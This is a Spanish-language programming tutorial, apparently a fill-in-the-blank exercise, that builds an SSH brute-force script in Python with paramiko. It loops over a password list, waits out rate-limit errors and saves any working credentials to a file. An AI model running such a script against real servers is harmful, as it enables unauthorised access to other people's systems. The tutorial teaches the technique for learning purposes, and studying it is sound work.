 ## Introducción
Un ataque de fuerza bruta es aquel que se basa en repetidos intentos de login utilizando múltiples combinanciones para comprometer un sistema que requeria autenticación. Hay muchísimas y muy buenas herramientas open source para realizar fuerza bruta al servicio SSH en Linux, como pueden ser Hydra, Metasploit, Patator o Medusa. 

Aún así, como nos encanta aprender, vamos a crear nuestro propio script para realizar un ataque de fuerza bruta a un servidor SSH en Python.

En primer lugar, el módulo más importante que vamos a utilizar es [paramiko](https://docs.paramiko.org/en/stable/), que nos proporciona una interfaz sencilla de cliente SSH.

Para instalarlo, bien de forma global en nuestra máquina, junto :

```console
$ pip3 install paramiko colorama
```

Bien únicamente en nuestro entorno virtual:

```console
(entorno-virtual)$ pipenv install paramiko colorama
```

En este caso instalamos también el módulo [colorama](https://pypi.org/project/colorama/) que únicamente nos permitirá imprimir en colores los textos por pantalla.

## Importando módulos necesarios

Para nuestros propósitos vamos a necesitar los siguientes módulos:

```py
import paramiko
import socket
import time
from colorama import init, Fore
```

+ El módulo **paramiko**, entre otras otras cosas, nos permite realizar conexiones ssh a un servidor, mostrando en tiempo real el resultado de los comandos que se ejecuten en el mismo. 
+ El módulo **socket** nos permite crear conexiones de red de bajo nivel
+ **time**, como su nombre indica, proporciona varias funciones relacionadas con el tiempo 

Definimos algunos de los colores que vamos a utilizar:

```python
init() #(1)

GREEN = Fore.GREEN
RED   = Fore.RED
RESET = Fore.RESET
BLUE  = Fore.BLUE
```

1. Iniciamos `colorama`

Ahora construiremos una función que, dado nombre de host, un usuario y una contraseña, nos diga si la combinación es correcta:

```python
def is_ssh_open(_______, _______, _______):
    # initialize SSH client
    client = paramiko.SSHClient()
    # add to know hosts
    client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    try:
        client.connect(hostname=_______, username=_______, password=_______, timeout=3)
    except socket.timeout:
        # this is when host is unreachable
        print(f"{RED}[!] Host: {hostname} is unreachable, timed out.{RESET}")
        return False
    except paramiko.AuthenticationException:
        print(f"[!] Invalid credentials for {username}:{password}")
        return False
    except paramiko.SSHException:
        print(f"{BLUE}[*] Quota exceeded, retrying with delay...{RESET}")
        # sleep for a minute
        time.sleep(60)
        return is_ssh_open(hostname, username, password)
    else:
        # connection was established successfully
        print(f"{GREEN}[+] Found combo:\n\tHOSTNAME: {hostname}\n\tUSERNAME: {username}\n\tPASSWORD: {password}{RESET}")
        return True
```

Mucha información en el bloque de arriba, que pasamos a desgranar. En primer lugar inicializamos nuestro cliente SSH usando `paramiko.SSHClient()` que no es más que una representación a alto nivel de una sesión con un servidor SSH.

En segundo lugar, estalecemos la política a usar cuando conectamos con servidores que no tengan una clave de host conocida. Usamos `paramiko.AutoAddPolicy()`, que es una política para añadir automáticamente el nombre de host y la nueva clave de host a nuestras claves locales. En román paladín, es una forma de emular esta típica acción:

![](img/unknown-SSH.webp)

Finalmente, intentamos conectarnos al servidor SSH y autenticarnos en él usando el métodos `client.connect()` con un timeout de 3 segundos. Este método puede lanzar varias excepciones:

1. `socket.timeout` cuando el host es inalcanzable durante 3 segundos
2. `paramiko.AuthenticationException` cuando la combinación usuario/contraseña no es correcta
3. `paramiko.SSHException` cuando se han producido muchos intentos de login en un corto periodo de tiempo. Dicho de otro modo, el servidor detecta que es un intento de fuerza bruta, nos damos por enterados y esperaremos un minuto para volver a llamar a la función de nuevo con los mismos parámetros.

Si no se lanza ninguna de las excpeciones anteriores, entonces significa que se ha estalecido la conexión con éxito y las credenciales son correctas, por lo que devolveremos `True` en este caso.

Puesto que estamos hablando de un script en línea de comandos, debemos *parsear* los argumentos que se le pasan al mismo:

```python
if __name__ == "__main__":
    import argparse
    parser = argparse.ArgumentParser(description="SSH Bruteforce Python script.")
    parser.add_argument("host", help="Hostname or IP Address of SSH Server to bruteforce.")
    parser.add_argument("-P", "--passlist", help="File that contain password list in each line.")
    parser.add_argument("-u", "--user", help="Host username.")

    # parseamos los argumentos que se nos han pasado
    args = parser.parse_args()
    host = args._______
    passlist = args._______
    user = args._______
    # leer el fichero
    passlist = open(_______).read().splitlines()
    # fuerza bruta
    for password in passlist:
        if is_ssh_open(host, user, password):
            global credenciales
            # Si la combinación es válida, la guardamos en un archivo
            credenciales = open("credentials.txt", "w").write(f"{user}@{host}:{password}")
            break
    credenciales.close()
```
Básicamente *parseamos* los argumentos para obtener el nombre de host, el nombre de usuario y el fichero con el listado de contraseñas sobre las que iteraremos. 

## Referencias
[How to Change Text Color in Python](https://www.thepythoncode.com/article/change-text-color-in-python)

[socket — Comunicación en red](https://rico-schmidt.name/pymotw-3/socket/index.html)

[HOW TO - Programación con sockets](https://docs.python.org/es/3/howto/sockets.html)

[How to Brute-Force SSH Servers in Python](https://www.thepythoncode.com/article/brute-force-ssh-servers-using-paramiko-in-python)
